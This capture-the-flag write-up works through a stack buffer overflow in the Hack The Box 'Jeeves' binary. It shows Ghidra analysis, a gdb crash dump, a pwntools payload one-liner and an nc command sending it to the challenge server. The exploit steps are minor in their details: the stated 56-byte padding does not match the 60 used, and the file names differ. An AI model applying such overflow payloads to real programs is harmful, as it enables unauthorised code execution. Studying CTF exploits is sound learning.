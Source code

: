 ### Jeeves Hack the Box Challenge : Intro to Binary Exploitation

Main Resource Used : https://www.youtube.com/watch?v=W5dVsa3__N4&t

Lets try to check what the binary is doing and it seems to be a very simple binary just out putting the following  output and in the middle it asks for our name and then displays it with a greeting like so :

```bash
Hello, good sir!
May I have your name? a
Hello a, hope you have a good day!
```

Now lets analyze the file in Ghidra to see what its actually doing.

![Ghidra Screenshot](./Images/ghidra.png)

Here it seems we need to overwrite the value of the variable i have renamed as variable to overwrite and this machine is using the gets function which is vulnerable to buffer overflow so we can try to overwrite the value to that certain point using the buffer overflow attack but to do lets first lets see if we can overwrite stuff. So transferring my application to gdb and running it with a 100 characters i get a segmentation fault and i can see that i can overwrite the variable :

```bash
gdb-peda$ r
Starting program: /home/nickapic/htb/challenges/jeeves
Hello, good sir!
May I have your name? aaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaa
Hello aaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaa, hope you have a good day!

Program received signal SIGSEGV, Segmentation fault.
[----------------------------------registers-----------------------------------]
RAX: 0x0
RBX: 0x0
RCX: 0x0
RDX: 0x0
RSI: 0x5555555592a0 ("Hello ", 'a' <repeats 100 times>, ", hope you have a good day!\n")
RDI: 0x7ffff7fa5670 --> 0x0
RBP: 0x6161616161616161 ('aaaaaaaa')
RSP: 0x7fffffffded8 ('a' <repeats 28 times>)
RIP: 0x5555555552ae (<main+197>:	ret)
R8 : 0xffffffff
R9 : 0x86
R10: 0x7fffffffde90 ('a' <repeats 100 times>)
R11: 0x246
R12: 0x555555555100 (<_start>:	endbr64)
R13: 0x0
R14: 0x0
R15: 0x0
EFLAGS: 0x10212 (carry parity ADJUST zero sign trap INTERRUPT direction overflow)
```

Now lets try to calculate how many values we gotta go over to get the our variable to overwrite.

We see there is 44 size buffer then an integer which is 4 bytes , then a pointer which is normally 8 bytes and then the int variable which we have to overwrite is 4 bytes so we will need to also add another 4 bytes this calculation to ```0x1337bab3```
So 44+4+8+4 = 56 bytes of padding and then the address. So we can also see that this is in little endian and for 64bit. So we can use soemthing like the pwn library to pack our 64 bit integer

Information about this : https://docs.pwntools.com/en/stable/util/packing.html?highlight=p64#pwnlib.util.packing.p64


```bash
python2 -c "import pwn; print('a'*60 + pwn.p64(0x1337bab3))" > input.txt
```

and then to get the flag we can use :

```bash
nc 139.59.162.195 30942 < input
```

